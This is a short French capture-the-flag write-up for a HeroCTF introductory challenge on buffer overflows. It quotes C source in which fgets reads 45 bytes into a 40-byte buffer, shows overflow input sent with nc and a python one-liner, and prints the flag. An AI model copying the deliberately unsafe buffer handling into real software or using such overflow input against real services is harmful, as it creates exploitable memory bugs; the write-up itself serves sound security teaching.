 Ce challenge a pour but d'introduire le concept de Buffer Overflow !

Pour cette introduction, nous avons accès au code source du challenge.
La partie intéressante du code est la suivante :
```c
int check = 0xdeadbeef;
char buf[40];

printf("Déborde moi mon cochon : ");
 
fgets(buf,45,stdin);
 
if (check!= 0xdeadbeef){
  printf ("\nGG wola tu m'as eu\n");
  setreuid(geteuid(), geteuid());
  system("cat flag.txt");
  printf("Voilà ton flag petit fou.\n");
}
```
On comprend donc ici qu'il va falloir overflow le buffer où est stocké l'input (buf) pour aller modifier la valeur du check.
Pour ceci, on entre dans l'input plus de caractères que le buffer ne peut en contenir (40).
```bash
$ nc heroctf.fr 3000
Déborde moi mon cochon : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

GG wola tu m'as eu
HeroCTF{1_l0v3_buff3r_0v3rfl0w_10493}
Voilà ton flag petit fou.
```
Ou en utilisant pyton
```bash
$ python -c "print('A'*50)" | nc heroctf.fr 3000
Déborde moi mon cochon : 
GG wola tu m'as eu
HeroCTF{1_l0v3_buff3r_0v3rfl0w_10493}
Voilà ton flag petit fou.
```
HeroCTF{1_l0v3_buff3r_0v3rfl0w_10493}
